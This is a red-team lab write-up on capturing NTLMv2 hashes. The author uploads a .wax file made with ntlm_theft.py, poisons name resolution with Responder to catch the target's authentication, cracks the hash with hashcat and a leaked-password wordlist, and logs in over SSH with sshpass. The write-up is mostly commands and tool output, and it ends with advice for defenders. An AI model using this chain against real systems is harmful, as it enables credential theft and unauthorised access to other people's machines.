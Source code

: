 ```yaml
---
title: "NTLM Hash Capture via Legacy WAX File Bypass"
date: 2025-09-26 18:30:00 +0200
categories: [Red-teaming]
tags: [Red Teaming, NTLMv2, Responder, Hashcat, WAX, Credential Theft, Lateral Movement]
toc: true
pin: false
---
```


# NTLM Hash Capture via Legacy WAX File - Lab Demonstration

This lab scenario explores the capture of NTLMv2 hashes using a legacy `WAX file` combined with `Responder` for hash poisoning. The technique demonstrates a POC (proof of concept) 
approach that, while effective in controlled environments, may have varying real world applicability depending on target configurations and security controls. There was a option
to upload a `Windows Media Player` file through the Web GUI. This method could potentially be useful in red teaming engagements where legacy systems are present. 

## Attack Flow

### 1. Weaponized File Creation
The `ntlm_theft.py` tool generates multiple attack vectors including the `redteam.wax` file:

```bash
python3 ntlm_theft.py -g all -s 10.10.10.10 -f redteam
/home/kali/ntlm_theft/ntlm_theft.py:168: SyntaxWarning: invalid escape sequence '\l'
  location.href = 'ms-word:ofe|u|\\''' + server + '''\leak\leak.docx';
Created: redteam/redteam.scf (BROWSE TO FOLDER)
Created: redteam/redteam-(url).url (BROWSE TO FOLDER)
Created: redteam/redteam-(icon).url (BROWSE TO FOLDER)
Created: redteam/redteam.lnk (BROWSE TO FOLDER)
Created: redteam/redteam.rtf (OPEN)
Created: redteam/redteam-(stylesheet).xml (OPEN)
Created: redteam/redteam-(fulldocx).xml (OPEN)
Created: redteam/redteam.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: redteam/redteam-(handler).htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: redteam/redteam-(includepicture).docx (OPEN)
Created: redteam/redteam-(remotetemplate).docx (OPEN)
Created: redteam/redteam-(frameset).docx (OPEN)
Created: redteam/redteam-(externalcell).xlsx (OPEN)
Created: redteam/redteam.wax (OPEN)
Created: redteam/redteam.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: redteam/redteam.asx (OPEN)
Created: redteam/redteam.jnlp (OPEN)
Created: redteam/redteam.application (DOWNLOAD AND OPEN)
Created: redteam/redteam.pdf (OPEN AND ALLOW)
Created: redteam/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: redteam/redteam.library-ms (BROWSE TO FOLDER)
Created: redteam/Autorun.inf (BROWSE TO FOLDER)
Created: redteam/desktop.ini (BROWSE TO FOLDER)
Created: redteam/redteam.theme (THEME TO INSTALL
Generation Complete.
```

### 2. NTLM Hijacking via .WAX

The [Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft){:target="_blank"} repository was used as a reference for generating test files in a controlled lab environment.  

### 3. Responder setup

```bash

Responder is initiated on the tun0 interface to capture authentication attempts:

responder -I tun0  
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [OFF]
    IMAP server                [OFF]
    POP3 server                [OFF]
    SMTP server                [OFF]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [OFF]
    RDP server                 [OFF]
    DCE-RPC server             [OFF]
    WinRM server               [OFF]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.10.10]
    Responder IPv6             [dead:beef:2::10cd]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-VVA6SP3PVXI]
    Responder Domain Name      [OUZ4.LOCAL]
    Responder DCE-RPC Port     [48236]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.1.1.1
[SMB] NTLMv2-SSP Username : MEDIA\enox
[SMB] NTLMv2-SSP Hash     : SNIP
[*] Skipping previously captured hash for MEDIA\enox
[*] Skipping previously captured hash for MEDIA\enox
[+] Exiting...

```

### 4. Hash capture

The `redteam.wax` file was uploaded via the web GUI and, when processed/previewed by the target, the authentication listener recorded an NTLMv2 authentication exchange.

```bash

Target interaction with the WAX file results in NTLMv2 hash capture:

SMB] NTLMv2-SSP Client   : 10.10.10.1
<SNIPPED GOT THE HASH>

Then saved the captured hash as enox.hash and cracked it by using hashcat.

hashcat enox.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 


```

### 5.  Logged in using sshpass
```bash
sshpass -p 'THECRACKEDPASSWORD' ssh enox@10.10.10.10

```


### 6. Conclusion

This lab showed that a legacy file format such as .WAX can be turned into a practical test of modern defenses. In a controlled environment the WAX file repeatedly caused an endpoint to
initiate an outbound NTLMv2 authentication exchange that revealed authentication metadata. That behavior highlights how older handlers and automatic retrieval mechanisms remain an underrated attack surface.

For red teams this provides a quiet but effective tool for social engineering and client side testing. A small user action, such as previewing or opening a media file,
can trigger protocol level behavior with real consequences. Use of this approach must be strictly authorised, carefully scoped, and fully documented to avoid real world harm.

For defenders the message is simple. Limit legacy protocol egress, harden client policies to reduce automatic retrieval of remote content, and
tune detection to link file open or preview events with outbound NTLM activity. Those steps will greatly reduce the odds that a routine media file becomes a pathway for credential exposure.

Ultimately legacy formats still matter. They can produce high impact, low visibility checks of network segmentation, endpoint configuration,
and detection maturity when used responsibly and with appropriate safeguards.

> This technique can be applied in penetration testing or `red teaming` engagements.
{: .prompt-danger }
